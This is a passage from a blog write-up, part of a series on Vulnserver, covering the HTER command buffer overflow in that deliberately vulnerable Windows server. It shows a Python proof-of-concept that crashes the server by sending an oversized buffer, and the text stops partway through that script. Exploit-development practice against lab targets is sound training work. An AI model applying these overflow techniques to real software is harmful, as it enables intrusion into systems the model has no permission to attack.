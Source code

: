 ```yaml
---
title: "Vulnserver Part 3 - HTER"
published: 2021-09-30T12:01:00-04:00
updated: 2021-09-30T12:01:00-04:00
categories:
  - writeup
tags:
  - vulnserver
  - windows
  - bufferoverflow
  - binary
  - exploit
  - bof
summary: This third part of our Vulnserver series looks rather easy at first. The buffer overflow can be done without any fuzzing. But once we look at the stack we find our input bytes have been... 
---
```


This third part of [our Vulnserver series](/posts/vulnserver_0_overview.html) looks rather easy at first. The buffer overflow can be done without any fuzzing. But once we look at the stack we find our input bytes have been changed. 

1. [Proof of Concept](#proof-of-concept)
2. [Stack Confusion](#stack-confusion)
3. [EIP Offset](#eip-offset)
4. [Conversion](#conversion)
5. [Bad Characters](#bad-characters)
6. [JMP ESP](#jmp-esp)
7. [Pop Calc](#pop-calc)
8. [Exploit](#exploit)


## Proof of Concept

A crash can be achieved with a simple buffer containing the "HTER " command and a large number of "A" (0x41) bytes. 

I got it with my first attempt:

```python
buf = b''
buf += b'HTER '
buf += b'A' * 4096
```


You should also be able to discover this with the fuzzers we have seen in the previous two Vulnserver writeups. The fuzzer we have used previously found the crash using 2048 * "C" bytes.

Here is the full PoC:

```python
#!/usr/bin/env python3
# HTER
# Step 1 - cause a crash / proof of concept
import socket

size = 4096
target_ip = "10.0.2.74"
target_port = 9999

buf = b""
buf += b"HTER "
buf += b"A" * size
buf += b"\n"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
```